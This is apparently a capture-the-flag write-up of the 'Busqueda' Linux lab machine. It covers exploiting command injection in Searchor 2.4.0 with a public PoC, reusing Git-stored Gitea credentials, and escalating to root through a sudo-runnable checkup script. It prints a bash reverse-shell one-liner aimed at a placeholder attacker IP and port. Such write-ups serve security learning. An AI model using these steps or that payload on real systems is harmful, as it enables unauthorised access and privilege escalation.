 # Busqueda Easy Linux Machine Write Up

![image](https://github.com/user-attachments/assets/725bea9b-f9af-49ed-875d-b5c702a279fe)


## Machine Description

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user&amp;amp;#039;s `Gitea` account. Further analysis of the system checkup script&amp;amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges. 

## Vulnerability Found

1. Arbitrary CMD Injection in `Searchor` python module version 2.4.0
2. Insecure stored Git credentials on located in the server
3. System checkup script can be executed with root privilege

   
## Step to Re-produce

### Enumeration

### Network Enumeration

I used `nmap` with `-p-, -T5, -O, -oN` tags to enumerate the services that available in the network. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/7c394f87-2128-467f-abaa-fa6b958092a4">
</div>

<div align="center">
  <p><span class="bolded"> Nmap Output</span></p>
</div>
</br>

From the output, I found that this network have 2 open services, ssh on port 22 and http on port 80.

### Web Enumeration

After found out that this network has http service, I looked into it. The interesting one is at the bottom of the page, which was showing what this web powered by.

<div align="center">
  <img src="https://github.com/user-attachments/assets/acbeb47d-8995-4de4-abbc-ebbd2ae335e6">
</div>

<div align="center">
  <p><span class="bolded"> Searchor Version</span></p>
</div>
</br>

As shown the above photo, I knew that this web used **Flask** and **Searchor version 2.4.0**. I was directly searching for the **Searchor** exploit and found out this version of Searchor is vulnerable to Aribitrary CMD Injection in the `eval()` function. I used this PoC: [Searcor Exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection).

### Exploitation

In this stage, after finding the exploit for **Searchor 2.4.0**, I followed through the PoC and ran the exploit.sh that provided in the PoC Github. 

Command based on the PoC:

    ./exploit.sh site.com <Your-IP> <Your-Port>

<div align="center">
  <img src="https://github.com/user-attachments/assets/fb4235f6-7edc-4be9-92f7-672df2564429">
</div>

<div align="center">
  <p><span class="bolded"> Running the Script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/858b39ad-1cff-4d12-adad-062cb00b3b46">
</div>

<div align="center">
  <p><span class="bolded"> Gain user-access level</span></p>
</div>
</br>

After gaining access to user-level, I found the cat.txt and read it.

### Privilege Escelation

In this stage, to perform privilege escelation, I found a `.git` folder in the `/var/www/app` directory. In `config` file, I found the url and credentials to login into `Gitea`.

<div align="center">
  <img src="https://github.com/user-attachments/assets/cae3212e-0430-49f6-bedc-1af3edb12bda">
</div>

<div align="center">
  <p><span class="bolded"> Gitea URL and credential</span></p>
</div>
</br>

I tried to looked and logged in into the gitea web but found nothing interesting there (maybe I am not detailed enough). 

I connected into ssh using user `svc` and password that was found earlier(gitea cody's password). I ran `sudo -l` to see what file and command that user `svc` may run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/f1a5dbf8-fc95-4e94-ad9b-a8bc5fe1ce7a">
</div>

<div align="center">
  <p><span class="bolded"> Allowed run as root for svc</span></p>
</div>
</br>

I tried to run the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *`, following the shown above, I found this:

<div align="center">
  <img src="https://github.com/user-attachments/assets/ce99808b-4860-494c-97f1-4aa0b8bc3623">
</div>

<div align="center">
  <p><span class="bolded"> Choices system checkup</span></p>
</div>
</br>

When I looked into `/opt/script` directory, I found out that it was a directory for a shell script that can be run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/6be8d50f-a6e1-48a3-be1c-5069e746cd4f">
</div>

<div align="center">
  <p><span class="bolded"> Scripts</span></p>
</div>
</br>

It got me thinking for a while. But, I tried to create a new `full-checkup.sh` file in /home/user directory that containing bash command for reverse shell so that when I run it, the bash will be run.

Payload:

    #! /bin/bash bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

I set up a netcat listener and ran the script using the same command like before, the difference was only I didn't use `*` because I chose the `full-checkup` to run the full-checkup script containing reverse shell.

<div align="center">
  <img src="https://github.com/user-attachments/assets/66622d61-360d-4261-981b-b979f18a52f2">
</div>

<div align="center">
  <p><span class="bolded"> Running the script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/a1fb8ba5-d3fe-4c1f-9e6d-65120ab198de">
</div>

<div align="center">
  <p><span class="bolded"> Gaining root access</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/0c124544-0954-4066-8c38-4626b8adab5a">
</div>

<div align="center">
  <p><span class="bolded"> Root.txt</span></p>
</div>
</br>


Thank you for reading!

